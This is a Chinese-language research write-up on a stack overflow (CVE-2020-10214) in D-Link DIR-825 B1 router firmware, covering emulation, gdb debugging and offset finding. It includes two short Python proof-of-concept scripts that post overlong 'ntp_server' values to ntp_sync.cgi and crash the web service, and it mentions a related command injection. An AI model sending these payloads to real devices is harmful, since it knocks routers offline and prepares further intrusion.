








# dir825b1_stack_overflow

dir-825 B1 北美版的，出厂系统一般是2.02NA版，官方最后也就升级到2.09NA版
固件厂商：D-link 
固件版本：DIR825B1_FW210NAb02.bin


# 1信息收集
## file  checksec     


固件是mips  大端序


在之前的命令注入漏洞（CVE-2019-9122）中，
参考链接：https://www.iotsec-zone.com/article/445
成功命令执行后，程序总是崩溃，所以倒过来研究一下。我当时一直是以为ntpclient -h %s -s -i 5 -c 1这里起服务的时候，服务设置错误，导致整个httpd服务崩掉了。
现在倒过来看，发现可能是因为这里有栈溢出漏洞



这里我们输入的ntp_server 最后赋值给了v9, 这里v9大小为32字节，这里很明显是可以溢出的。

但是之前的命令注入还是能执行到system(),估计是破换掉了返回地址。

cvelist查询后，发现漏洞编号对应CVE-2020-10214	
且该路由器上，只发下这样一个栈溢出漏洞。 但是网上参考资料，只有栈溢出后让程序崩溃，并无后续利用。


----------------------

# 2.固件模拟

```
sudo ./run.sh -d dlink  '/home/iot/Desktop/D-link/dir825B1/DIR825B1_FW210NAb02.bin' 
```


FirmAE可以直接系统级模拟

---

dir825.py
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests


command = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"


payload = {"ntp_server":command, "html_response_page":"back.asp"}
r = requests.post('http://192.168.0.1/ntp_sync.cgi', data=payload)


```

执行程序后 ，虽然报错，但是整个服务崩掉了。


可见这里确实存在问题，接下来我们进行动态调试，计算偏移。

---


dir825.py
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests


command = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac"


payload = {"ntp_server":command, "html_response_page":"back.asp"}
r = requests.post('http://192.168.0.1/ntp_sync.cgi', data=payload)


```

开启httpd动态调试，计算偏移量。


在调用sprintf 和 system的位置下断点，因为这里存在命令注入（CVE-2019-9122	），程序肯定是在_system执行后，崩溃的.


调试的时候注意，先在gdb中c  ,然后再运行exp.py





这个位置调用了system()  ，执行了我们注入的命令。
程序崩溃点还在后面


---
继续执行


结合伪代码

执行到这里 ，程序突然输出了一大串，这里程序因该是已经开始执行init_cgi(0)，然后服务就无法访问了。




---


我们重启程序，在init_cgi（）中的  0x004078F8位置下断点。







这里将ntp_serve的值取出来了，拿来做httpd服务的初始化操作。


---

继续向后调试，发现ntp_server的长度 ，只要小于等会22， 就不会崩溃。长度大于23，服务就会出错。
但是这个长度还没有溢出啊？


让我们看看这个B是如何影响到程序流的

执行到后面，发现system把htp_server的值，读到了栈上,这里导致了htp_server过长的话，会覆盖掉栈上的信息，导致程序出错。


这里刚好是22个字符，如果再长一点，因为会覆盖掉偏移地址，导致程序出错，无法访问了。

下图就是覆盖了保存在栈上的地址了。



然后整个服务就出问题了。


这确实是个栈溢出漏洞，利用方式的话后续有机会再完善。

---


